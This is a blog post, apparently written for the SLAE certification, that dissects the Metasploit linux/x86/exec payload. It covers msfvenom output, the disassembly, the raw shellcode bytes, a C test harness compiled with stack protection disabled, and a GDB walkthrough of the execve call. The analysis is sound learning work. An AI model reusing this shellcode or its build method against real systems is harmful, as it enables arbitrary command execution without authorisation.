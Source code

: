 ```yaml
---
layout: post
title: Metasploit Linux x86 exec Analysis
tags: [slae]
---
```


This is the last Metasploit payload analysis post for the SLAE. This time we'll be examining the `linux/x86/exec` payload and seeing exactly how it works. 

Like always we'll first start by checking out the payload options.

```
root@kali:~/SLAE# msfvenom -p linux/x86/exec --payload-options
Options for payload/linux/x86/exec:


       Name: Linux Execute Command
     Module: payload/linux/x86/exec
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    vlad902 <vlad902@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    yes       The command string to execute

Description:
  Execute an arbitrary command
``` 

To keep things simple we'll specify `id` as our CMD option. Let's run `msfvenom` and pipe into `ndisasm` to get an overview of the assembly.

```
root@kali:~/SLAE# msfvenom -p linux/x86/exec CMD=id -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 38 bytes

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E803000000        call 0x20
0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953
00000025  80                db 0x80
```

Another small payload. We see another CALL but can't see the instructions its calling at the address 0x20. Let's extract the shellcode and throw it in our trusty dusty C wrapper to see exactly what's happening with GDB. 

```
root@kali:~/SLAE# msfvenom -p linux/x86/exec CMD=id -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 38 bytes
Final size of c file: 185 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x03\x00\x00\x00\x69"
"\x64\x00\x57\x53\x89\xe1\xcd\x80";


root@kali:~/SLAE# vim id.c
root@kali:~/SLAE# gcc id.c -o id -fno-stack-protector -z execstack
root@kali:~/SLAE# ./id
Shellcode Length:  15
uid=0(root) gid=0(root) groups=0(root)
```

Payload indeed works. We'll fire up GDB and set a breakpoint on our shellcode.

```
root@kali:~/SLAE# gdb -q ./id
Reading symbols from ./id...(no debugging symbols found)...done.
gdb-peda$ break *&code
Breakpoint 1 at 0x2040
gdb-peda$ r
Starting program: /root/SLAE/id 
Shellcode Length:  15

[----------------------------------registers-----------------------------------]
EAX: 0x402040 --> 0x99580b6a 
EBX: 0x402000 --> 0x1efc 
ECX: 0x16 
EDX: 0xb7fa4870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff36c --> 0x40059d (<main+80>:	mov    eax,0x0)
EIP: 0x402040 --> 0x99580b6a
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40203a:	add    BYTE PTR [eax],al
   0x40203c:	add    BYTE PTR [eax],al
   0x40203e:	add    BYTE PTR [eax],al
=> 0x402040 <code>:	push   0xb
   0x402042 <code+2>:	pop    eax
   0x402043 <code+3>:	cdq    
   0x402044 <code+4>:	push   edx
   0x402045 <code+5>:	pushw  0x632d
[------------------------------------stack-------------------------------------]
0000| 0xbffff36c --> 0x40059d (<main+80>:	mov    eax,0x0)
0004| 0xbffff370 --> 0x1 
0008| 0xbffff374 --> 0xbffff434 --> 0xbffff5cc ("/root/SLAE/id")
0012| 0xbffff378 --> 0xbffff43c --> 0xbffff5da ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0016| 0xbffff37c --> 0x402040 --> 0x99580b6a 
0020| 0xbffff380 --> 0xbffff3a0 --> 0x1 
0024| 0xbffff384 --> 0x0 
0028| 0xbffff388 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00402040 in code ()
```

## execve()

There is only one system call for this payload so we'll be looking at all of the assembly instructions. I've made comments to help follow along on what's happening. 


```nasm
push   0xb			; execve()		
pop    eax			;
cdq    				; set edx to 0
push   edx			; 0
pushw  0x632d			; '-c'
mov    edi,esp			; point edi to stack
push   0x68732f			; '/sh'
push   0x6e69622f		; '/bin
mov    ebx,esp			; point ebx to stack
push   edx			; 0
call   0x402060 <code+32>	; call and push "id" string to stack	
imul   esp,DWORD PTR 		; "id" string
push   ebx			; push "/bin/sh"
mov    ecx,esp			; point to stack
int    0x80			; execute execve
```

Everything is pretty straight forward. We first see a PUSH of the execve() syscall (11) along with a CDQ to zero out EDX. From here is setting up the stack for execve(). The CALL trick is used once again to get our command to be ran pushed onto the stack. We can see that here after setting a breakpoint at code+32 right before the PUSH to point EBX at the stack. Previously we did not see the instructions from push EBX to the interrupt call when using `ndisasm`.

```
[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0xbffff35e ("/bin/sh")
ECX: 0x16 
EDX: 0x0 
ESI: 0x1 
EDI: 0xbffff366 --> 0x632d ('-c')
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff352 --> 0xbffff366 --> 0x632d ('-c')
EIP: 0x402061 --> 0xcde18953
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0x402061 <code+33>:	push   ebx
   0x402062 <code+34>:	mov    ecx,esp
   0x402064 <code+36>:	int    0x80
   0x402066 <code+38>:	add    BYTE PTR [eax],al
[------------------------------------stack-------------------------------------]
0000| 0xbffff352 --> 0xbffff366 --> 0x632d ('-c')
0004| 0xbffff356 --> 0x40205d --> 0x57006469 ('id')
0008| 0xbffff35a --> 0x0 
0012| 0xbffff35e ("/bin/sh")
0016| 0xbffff362 --> 0x68732f ('/sh')
0020| 0xbffff366 --> 0x632d ('-c')
0024| 0xbffff36a --> 0x59d0000 
0028| 0xbffff36e --> 0x10040 
[------------------------------------------------------------------------------]
```

Right before the interrupt is called our registers and stack looks like such:

```
[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0xbffff35e ("/bin/sh")
ECX: 0xbffff34e --> 0xbffff35e ("/bin/sh")
EDX: 0x0 
ESI: 0x1 
EDI: 0xbffff366 --> 0x632d ('-c')
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff34e --> 0xbffff35e ("/bin/sh")
EIP: 0x402064 --> 0x80cd
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40205c <code+28>:	add    BYTE PTR [ecx+0x64],ch
   0x40205f <code+31>:	add    BYTE PTR [edi+0x53],dl
   0x402062 <code+34>:	mov    ecx,esp
=> 0x402064 <code+36>:	int    0x80
   0x402066 <code+38>:	add    BYTE PTR [eax],al
   0x402068:	add    BYTE PTR [eax],al
   0x40206a:	add    BYTE PTR [eax],al
   0x40206c:	add    BYTE PTR [eax],al
[------------------------------------stack-------------------------------------]
0000| 0xbffff34e --> 0xbffff35e ("/bin/sh")
0004| 0xbffff352 --> 0xbffff366 --> 0x632d ('-c')
0008| 0xbffff356 --> 0x40205d --> 0x57006469 ('id')
0012| 0xbffff35a --> 0x0 
0016| 0xbffff35e ("/bin/sh")
0020| 0xbffff362 --> 0x68732f ('/sh')
0024| 0xbffff366 --> 0x632d ('-c')
0028| 0xbffff36a --> 0x59d0000 
[------------------------------------------------------------------------------]
```

This formats our execve call as follows:

```
execve("/bin/sh", ["/bin/sh", '-c' 'id'], 0)
```

That's it! Only one syscall to dissect this time around. 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>